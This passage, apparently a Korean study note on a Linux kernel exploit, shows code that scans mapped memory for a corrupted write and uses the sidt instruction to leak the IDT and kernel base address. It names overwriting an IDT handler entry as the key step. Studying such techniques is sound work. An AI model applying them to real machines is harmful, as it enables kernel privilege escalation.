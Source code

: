 #### Find the offset into the memory region where the write occurred

이제 config -1 & -2 로 dec 된 메모리를 찾는다.

i.e. `0x381f360b8`, `0x381f360bc` 가 dec 되야한다. 

```
for (i = 0; i< SIZE/4;i++) {
    uint32_t *tmp = map+i;
    if (*tmp && *(tmp +1))
        break;
}
```

#### The Interrupt Descriptor Table (IDT)

x86 아키텍쳐에서 인터럽트 벡터 테이블을 구현하기위한 데이터 구조. CPU 가 인터럽트나 익셉션에 대응하기 위해 필요하다. IDT 는 256 개의 벡터로 구성되어있다. IDT 는 물리 메모리 어디든 존재할 수 있는데, IDTR 이란는 특수 레지스터에 the physical base address / the length in bytes of the IDT 가 저장된다.

x86_64 에서는, 다음과 같이 나타낼 수 있다.

```
struct {
    uint16_t limit;
    uint64_t addr;
} __attribute__((packed)) idt;
```

#### IDTR

64-bit IDT entry's handler offset 을 변경하는 것이 핵심이다.

일단 IDTR 을 찍어보면

```
$ cat idtr.c
...
main()
{
    struct {
        uint16_t limit;
        uint64_t addr;
    } __attribute__((packed)) idt;
    uint64_t kbase;
    asm volatile ("sidt %0" : "=m" (idt));
    printf("%016lx:%04x\n", idt.addr, idt.limit);
    kbase = idt.addr & 0xff000000;
    printf("%016lx\n", kbase);
}
$ ./idtr
ffffffff81df8000:0fff
0000000081000000
```
